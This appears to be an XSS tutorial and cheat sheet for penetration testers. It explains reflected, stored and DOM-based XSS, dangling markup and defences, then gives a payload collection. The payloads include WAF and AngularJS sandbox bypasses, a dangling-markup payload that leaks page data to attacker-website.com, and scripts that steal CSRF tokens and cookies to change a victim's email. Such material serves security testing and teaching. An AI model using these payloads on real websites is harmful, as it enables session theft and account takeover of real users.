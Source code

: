 # Cross-Site Scripting

Cross-Site Scripting is all about getting malicious javascript to execute. This allows an attacker to do basically anything on the client-side of the targeted user. A basic test to check if XSS is working, is by invoking the `alert(1)` function. Or use `alert(document.domain)` to show what domain the javascript is executing on. 

An attacker is then able to
- Impersonate or masquerade as the victim user
- Carry out any action that the user is able to perform
- Read any data that the user is able to access
- Capture the user's login credentials
- Perform virtual defacement of the web site
- Inject trojan functionality into the web site

## Reflected XSS
User input is immediatly reflected in the response in an unsafe way that allows for malicious javascript to execute. For example in a search feature it says "Results for '\<script>alert(1)\</script>'".

1. Test every entry point, input parameters, URL file path, http headers, etc
2. Submit random alphanumeric values, and check if they are reflected
3. Determine the reflection context, inbetween tags, in javascript string, etc. Take a look at the [Proof of Concepts](#proof-of-concepts) on how to escape certain contexts
4. Test different payloads, [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
5. Test the attack in browser

## Stored XSS
Inputted data is later used by the application in an unsafe way that allows for malicious javascript to execute. For example in a comment feature "Comment: \<script>alert(1)\</script>".

1. Try to find connections between entry points (input parameters, URL file path, http headers, etc) and exit points (all http responses that are returned to a user in any situation)
2. Do this by submitting specific values into all entry points, and monitoring if any response contains any of those values
3. Determine the context, inbetween tags, in javascript string, etc. Take a look at the [Proof of Concepts](#proof-of-concepts) on how to escape certain contexts
4. Test different payloads, [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
5. Test the attack in browser

## DOM-based XSS
Client-side javascript processes data in an unsafe way, usually by writing the data back to the [DOM](https://en.wikipedia.org/wiki/Document_Object_Model). For example, javascript reads a value from an input field and writes it back to an HTML element.

You need a source, e.g.:
```js
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location.search
location.hash
document.cookie
document.referrer
```

And a sink in the javascript code, e.g.: 
```js
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
eval()
```

Or a sink in third-party libraries/frameworks, e.g. [jQuery](https://jquery.com/) (sink: `$(xss)`), [AngularJS](https://angularjs.org/) (sink: `{{xss}}`), etc

To find what sources and sinks work, input random strings, and use developer tools to inspect the HTML, or use a javascript debugger. This task can be quite tedious.

## Dangling Markup
Imagine a normal XSS attack is not possible, but you can still inject some input that gets parsed in an unsafe way. Then you can sometimes perform a dangling markup attack. Use a payload like this:

```html
"><img src='//attacker-website.com?
```

This first breaks out of the parent html tag, and then uses an img tag to make a request to the attacker controlled website. But notice that the source link does not have a closing qoute. Now all characters up until some `'` get sent to the attacker controlled website. If you are lucky, this might include CSRF tokens, passwords, or something else sensitive.

## Protections
- The [Content-Security-Policy header](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) limits the effect of XSS attacks. Or even fully blocks some injected scripts to execute
- Encoding data on output
- Validating input on arrival

These three together do a good job of protecting against XSS. Probably the most vulnerable parts of a website are places where users are allowed to input some kind of html markup. Because it is hard to blacklist every malicious attribute, and whitelisting might not cut it.

## Proof of Concepts

Take a look at this amazing [Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) from portswigger.

### In Attribute String
```html
"><script>alert(1)</script>
```
```html
" autofocus onfocus=alert(1) x="
```
```html
<a href="javascript:alert(1)">
```

### In Javascript String
```html
</script><img src=1 onerror=alert(1)>
```
```js
'-alert(1)-'
```
```js
';alert(1)//
```
```js
\';alert(1)//
```
```html
&apos;-alert(1)-&apos;
```

### Blocked characters | WAF
```html
onerror=alert;throw 1
```
```html
<script>{onerror=eval}throw'=alert\x281\x29'</script>
```
```html
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```

### Template Literal
```js
${alert(1)}
```

### AngularJS | Sandboxed | CSP
```js
'a'.constructor.prototype.charAt=[].join
$eval('x=alert(1)')
```
```js
// fromCharCode() translates to: x=alert(1)
toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
```html
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
<!-- Or use array.map() to hide from the CSP: "[1].map(alert)" -->
```

### XSS->CSRF
```html
<script>
window.addEventListener('DOMContentLoaded', function(){

var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 3);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'foo@bar.com');
data.append('website', 'http://foo.bar');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=foo@bar.com')
};
</script>
```